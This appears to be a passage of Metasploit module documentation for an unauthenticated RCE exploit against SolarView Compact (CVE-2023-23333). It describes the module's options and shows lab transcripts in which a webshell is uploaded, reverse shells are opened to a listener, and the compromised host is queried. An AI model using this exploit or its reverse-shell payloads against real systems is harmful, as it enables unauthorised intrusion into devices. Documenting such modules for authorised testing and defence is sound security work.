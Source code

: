 ### TARGETURI
The uripath to the `SolarView Compact` web application. Default set is to `/`.
### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 0
target => 0
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.55
[+] Deleted EearlCwpEMWf.php
[*] Meterpreter session 8 opened (192.168.201.8:4444 -> 192.168.201.55:35158) at 2023-08-27 21:46:59 +0000

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command -  cmd/unix/reverse_bash
```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 1
target => 1
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.55:39726) at 2023-08-27 21:48:23 +0000

uname -a
Linux cuckoo 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1002(contec) gid=0(root) groups=0(root)
```
### Ubuntu 22.04 Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 2
target => 2
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
```